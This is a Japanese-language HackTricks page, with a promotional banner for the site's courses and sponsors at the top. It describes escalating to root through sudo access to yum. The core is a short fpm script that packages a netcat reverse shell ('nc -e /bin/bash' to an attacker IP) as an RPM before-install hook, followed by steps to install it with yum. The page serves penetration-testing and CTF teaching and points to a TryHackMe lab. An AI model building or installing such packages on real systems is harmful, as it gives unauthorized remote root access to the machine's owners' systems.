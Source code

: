 <details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)、当社の独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) コレクションを発見する
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live) をフォローする。
* **ハッキングトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github リポジトリに提出してください。

</details>

yumに関するさらなる例は、[gtfobins](https://gtfobins.github.io/gtfobins/yum/) で見つけることができます。

# RPMパッケージを介した任意のコマンドの実行
## 環境の確認
このベクトルを活用するためには、ユーザーが高い特権を持つユーザーとしてyumコマンドを実行できる必要があります。つまり、rootユーザーである必要があります。

### このベクトルの動作例
この脆弱性の動作例は、[tryhackme](https://tryhackme.com) の [daily bugle](https://tryhackme.com/room/dailybugle) ルームで見つけることができます。

## RPMのパッケージング
次のセクションでは、[fpm](https://github.com/jordansissel/fpm) を使用してRPMに逆シェルをパッケージ化する方法について説明します。

以下の例では、攻撃者が定義できる任意のスクリプトを持つ before-install トリガーを含むパッケージを作成します。このパッケージをインストールすると、任意のコマンドが実行されます。デモンストレーション用にシンプルな逆ネットキャットシェルの例を使用しましたが、必要に応じて変更できます。
```text
EXPLOITDIR=$(mktemp -d)
CMD='nc -e /bin/bash <ATTACKER IP> <PORT>'
RPMNAME="exploited"
echo $CMD > $EXPLOITDIR/beforeinstall.sh
fpm -n $RPMNAME -s dir -t rpm -a all --before-install $EXPLOITDIR/beforeinstall.sh $EXPLOITDIR
```
# シェルを取得する
上記の例を使用し、`yum`を特権のあるユーザーとして実行できると仮定します。

1. ホストにrpmを**転送**します
2. ローカルホストで[例のnetcatリスナー](/shells/shells/linux#netcat)などを**起動**します
3. 脆弱なパッケージをインストールします `yum localinstall -y exploited-1.0-1.noarch.rpm`
